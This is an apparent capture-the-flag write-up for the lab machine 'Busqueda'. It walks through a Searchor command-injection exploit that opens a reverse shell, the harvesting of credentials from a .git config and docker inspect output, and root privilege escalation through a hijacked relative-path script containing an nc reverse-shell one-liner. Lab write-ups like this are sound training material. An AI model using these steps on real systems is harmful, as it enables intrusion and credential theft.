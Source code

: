 ## Busqueda

### Lab Details 

- Difficulty: Easy  
- Type:Web App, SSRF, Gitea, Docker, Priv Esc, Linux
#### Initial Foothold
- run Nmap
```
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzAFurw3qLK4OEzrjFarOhWslRrQ3K/MDVL2opfXQLI+zYXSwqofxsf8v2MEZuIGj6540YrzldnPf8CTFSW2rk=
|   256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPTtbUicaITwpKjAQWp8Dkq1glFodwroxhLwJo6hRBUK
80/tcp   open  http       syn-ack Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Searcher
|_http-server-header: Apache/2.4.52 (Ubuntu)
9002/tcp open  tcpwrapped syn-ack
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
```
- enumerate web app on port 80
	- the version of the application `Searcher` is `2.4.0`
	- found POC for this version of the application: https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
```
$ ./exploit.sh http://searcher.htb/ 10.10.16.20 4444
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is http://searcher.htb/
[*] Input attacker is 10.10.16.20:4444
[*] Run the Reverse Shell... Press Ctrl+C after successful connection

## on attacker
$ nc -lvnp 4444                                
listening on [any] 4444 ...
connect to [10.10.16.20] from (UNKNOWN) [10.10.11.208] 56156
svc@busqueda:/var/www/app$ whoami
whoami
svc
```
#### Privilege Escalation
- we are able to get access to user `svc` from the POC however no further actions can be done with the account 
- check for the `app` directory, contains `.git`
- `./config` file contains the ssh password of user SVC to the server
- it also contains information of the second application hosted on the server `gitea.searcher.htb` 
- the new domain need to be added to `/etc/hosts`
```
svc@busqueda:/var/www/app/.git$ cat ./config
cat ./config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```
 - ssh into the server with `SVC` credential and run `sudo -l`
```
svc@busqueda:~$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py * 
```
- by running the script `system-checkup.py` as `root`, we can see that the script takes in 3 parameters
- running `docker-ps` shows a list of running docker containers
- running `docker-inspect` inspects a certain docker container
- we can use `docker-inspect` to check configs of a running docker container
```
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
     
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED       STATUS        PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   2 years ago   Up 22 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   2 years ago   Up 22 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea| jq

<snip>
    "Env": [
      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"
    ],
<snip>
```
- running `docker-inspect` on the `gitea` docker gives up the password to `mysql` database
- we can then attempt reuse the credential to login to `gitea.searcher.htb`
![[gitea scripts.png]]
- on line 47 of the `system-checkup.py` script its calling the `full-checkup.sh` script from a relative path which can be vulnerable to file injection attack
- to exploit this, create a new file with the same name as `full-checkup.sh` in a directory and run the `system-checkup.py` in that directory
```
svc@busqueda:/tmp$ cat full-checkup.sh 
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.20 9002 >/tmp/f

svc@busqueda:/tmp$ ls -la
total 68
drwxrwxrwt 16 root root 4096 Jul 22 13:49 .
drwxr-xr-x 19 root root 4096 Mar  1  2023 ..
drwxrwxrwt  2 root root 4096 Jul 21 15:36 .font-unix
-rwxrwxr-x  1 svc  svc    81 Jul 22 13:49 full-checkup.sh
drwxrwxrwt  2 root root 4096 Jul 21 15:36 .ICE-unix
drwx------  3 root root 4096 Jul 21 15:36 snap-private-tmp
drwx------  3 root root 4096 Jul 21 15:36 systemd-private-3c593bb6d4834a77a1587c3df2af7be7-apache2.service-7tFy3s
drwx------  3 root root 4096 Jul 21 15:36 systemd-private-3c593bb6d4834a77a1587c3df2af7be7-ModemManager.service-j1f6Nx
drwx------  3 root root 4096 Jul 21 15:36 systemd-private-3c593bb6d4834a77a1587c3df2af7be7-systemd-logind.service-S2sPFo
drwx------  3 root root 4096 Jul 21 15:36 systemd-private-3c593bb6d4834a77a1587c3df2af7be7-systemd-resolved.service-I7R0Jw
drwx------  3 root root 4096 Jul 21 15:36 systemd-private-3c593bb6d4834a77a1587c3df2af7be7-systemd-timesyncd.service-VzeIbv                drwx------  3 root root 4096 Jul 21 18:06 systemd-private-3c593bb6d4834a77a1587c3df2af7be7-upower.service-H2ubEQ
drwxrwxrwt  2 root root 4096 Jul 21 15:36 .Test-unix
drwx------  2 svc  svc  4096 Jul 22 10:24 tmux-1000
drwx------  2 root root 4096 Jul 21 15:36 vmware-root_777-4281777711
drwxrwxrwt  2 root root 4096 Jul 21 15:36 .X11-unix
drwxrwxrwt  2 root root 4096 Jul 21 15:36 .XIM-unix
svc@busqueda:/tmp$ vim full-checkup.sh
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-check

## on attacker
$ nc -lvnp 9002                                
listening on [any] 9002 ...
connect to [10.10.16.20] from (UNKNOWN) [10.10.11.208] 34120
root@busqueda:/tmp# whoami 
whoami
root
```

#### Resources

#### Lesson Learned
